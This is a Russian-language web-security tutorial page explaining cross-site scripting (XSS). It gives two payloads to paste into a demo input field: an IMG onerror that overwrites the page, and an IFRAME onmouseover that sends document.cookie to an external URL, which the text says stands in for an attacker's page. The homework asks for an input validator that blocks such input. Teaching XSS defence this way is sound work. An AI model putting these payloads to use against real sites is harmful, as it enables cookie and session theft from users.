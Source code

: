 # ![ico-30 study] XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
^^вместо "C" используется "X", чтобы не было путаницы с CSS^^

Внедренный код будет выполняться на компьютере пользователя
Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера

Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода

[![ico-20 link] Перейдите по ссылке](https://garevna.github.io/js-samples/#03)

Откройте **~Chrome DevTools~**

Установите точки останова  ( ~breakpoints~ ) для того, чтобы пошагово отслеживать выполнение кода и вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IMG SRC="images/hack.png"
     onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
~~~

это довольно безобидная "атака", которая просто перезапишет содержимое ~body~

2. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IFRAME SRC=js/attack.html
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
~~~

^^с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем^^

Обратите внимание, что вместо ссылки ![ico-20 cap] ~https://garevna.github.io/js-samples/js/attack.html~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## ![ico-25 hw] Задание

В панели навигации откройте файл **~js/index03.js~**

Обратите внимание на функцию валидации ввода пользователя  ( **~testUserText~** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

__________________________________________________________

[![ico-20 link] securitylab](https://www.securitylab.ru/analytics/432835.php)
[![ico-20 link] websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)

